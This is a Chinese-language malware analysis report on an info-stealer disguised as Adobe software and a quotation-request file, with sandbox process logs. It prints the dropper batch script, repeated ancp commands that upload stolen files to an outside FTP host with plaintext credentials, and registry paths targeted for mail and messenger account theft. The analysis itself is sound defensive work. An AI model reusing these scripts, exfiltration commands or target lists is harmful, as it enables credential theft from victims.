






# 病毒分析报告

## 大致信息

- 文件名：
  - a2eebbf189540a495ea1350d2fc32196d63bf150bd6b980350c5ac245f92aaf4
- 文件大小：
  - 3,455,109 bytes（3.29MB）
- 哈希值
  - MD5：c6 e1 1c 72 5a 22 28 17 10 68 d9 7c ba 3d 8e 7d


## 行为记录

在将该文件放到火绒剑之后，查看任务管理器，发现一个名为Areada.exe 的 程序正在运行。然后右键查看该文件所在位置，发现如下文件夹。



等程序运行一段时间后，去查看系统的监控日志。

改程序启动后的大致运行流程如下：



wscript程序先在cmd中去打开adob01.bat这个脚本



该脚本内容如下：



```bat
@echo off
@cls

@md "%APPDATA%\Adobe\Adobe INC\AadobeRead\"

@xcopy /y /h /e /r /k /c *.* "%APPDATA%\Adobe\Adobe Inc\AadobeRead\"


@start "kissd" /normal /b /d "%APPDATA%\Adobe\Adobe Inc\AadobeRead\" "%APPDATA%\Adobe\Adobe Inc\AadobeRead\adob02.bat"

@cls
```

在该脚本中启动了adobe02.bat脚本并且使用xcopy进行文件的复制

### 启动大量进程

这是一条执行链,执行的相关命令如下。

```
Spawned process "RFQRequestForQuotation.exe" (Show Process)
Spawned process "wscript.exe" with commandline ""%APPDATA%\Local\Adobe\Pdf\low\adobel.vbs"" (Show Process)
Spawned process "cmd.exe" with commandline "/c ""%APPDATA%\Local\Adobe\Pdf\low\adob01.bat" /quiet /norestart"" (Show Process)
Spawned process "xcopy.exe" with commandline "xcopy /y /h /e /r /k /c *.* "%APPDATA%\Adobe\Adobe Inc\AadobeRead\"" (Show Process)
Spawned process "cmd.exe" with commandline "/K "%APPDATA%\Adobe\Adobe Inc\AadobeRead\adob02.bat"" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
```

adobepdf2.exe 执行的命令



### 个人信息的获取

- 扫描有助于识别目标细节的文件
- 查询敏感的 IE 安全设置
- 读取活动计算机名称
- 读取加密机 GUID
- 读取系统/视频 BIOS 版本

```
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\GOOGLE\GOOGLE TALK\ACCOUNTS")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\INCREDIMAIL\IDENTITIES")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS LIVE MAIL")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\IDENTITYCRL\DYNAMIC SALT")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676\00000001")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676\00000002")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676\00000003")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\OFFICE\OUTLOOK\OMI ACCOUNT MANAGER\ACCOUNTS")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\INTERNET ACCOUNT MANAGER\ACCOUNTS")
```

获取即时通讯的相关注册表项
```
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\GOOGLE\GOOGLE TALK\ACCOUNTS")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\PALTALK")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS LIVE MAIL")
```


### 网络行为相关

- 与198.23.57.8该ip地址相关的行为



该程序的日志： [virus's log](./virus.log)

## 相关文件

- 可执行程序

  - exe
    - wscript.exe
    - **cmd.exe**
    - xcopy.exe
    - attrib.exe
    - ipconfig.exe
    - **adobepdf.exe**
    - **adobepdf2.exe**
    - ancp.exe
    - Areada.exe
  - 脚本
    - adob01.bat
    - adob02.bat

## 参考资料
- [8f654cee2a1b5b907102fb23bf894bc42d8736a30caa08a7618f17bcad8f6e8e.exe](https://www.hybrid-analysis.com/sample/8f654cee2a1b5b907102fb23bf894bc42d8736a30caa08a7618f17bcad8f6e8e/5c73964b02883864825b429a)
- [ RFQ Request For Quotation.exe](https://any.run/report/d94ace8c997d1ec1f05f05d7ea41882cd0255f078c96c175b61cebdc66e613be/7d29ca1b-5316-483c-938a-8208552a32ec)

